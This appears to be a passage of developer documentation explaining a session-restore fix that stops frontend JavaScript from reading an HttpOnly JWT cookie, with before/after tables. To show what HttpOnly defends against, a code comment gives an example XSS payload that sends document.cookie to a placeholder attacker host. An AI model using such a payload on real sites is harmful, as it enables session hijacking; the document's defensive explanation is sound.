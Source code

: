 ### Why HttpOnly is Important

**HttpOnly cookies prevent XSS attacks:**

```javascript
// ❌ Without HttpOnly:
// Attacker injects: <script>fetch('evil.com?cookie=' + document.cookie)</script>
// Result: Session stolen!

// ✅ With HttpOnly:
// Attacker injects same script
// Result: document.cookie doesn't include session cookie → Safe!
```

### Why This Fix is Secure

1. **HttpOnly still enabled** - JavaScript can't access cookie
2. **Cookie sent via HTTP only** - Through request headers
3. **Server-side verification** - JWT validated on backend
4. **Short-lived tokens** - 7-day expiration
5. **Secure in production** - `secure: true` enforces HTTPS

### What This Fix Does NOT Change

- ✅ HttpOnly remains enabled
- ✅ Cookie security unchanged
- ✅ JWT verification unchanged
- ✅ SameSite policy unchanged

**Only change:** Don't try to read cookie from JavaScript (which was failing anyway)

---

## 📊 Before vs After

| Aspect | Before (Broken) | After (Fixed) |
|--------|-----------------|---------------|
| **Cookie Reading** | Tried to read from `document.cookie` | Uses HTTP request |
| **API Call** | Conditional (never executed) | Always executed |
| **Session Restore** | ❌ Never restored | ✅ Always restored |
| **User Experience** | Logout on refresh | Stay logged in |
| **Security** | Same (HttpOnly) | Same (HttpOnly) |

### Code Complexity

| Metric | Before | After |
|--------|--------|-------|
| **Lines of code** | ~190 lines | ~175 lines |
| **Functions** | 4 | 3 (removed `getCookie`) |
| **Conditional checks** | 2 | 1 (simpler) |
| **Clarity** | Confusing | Clear |

---
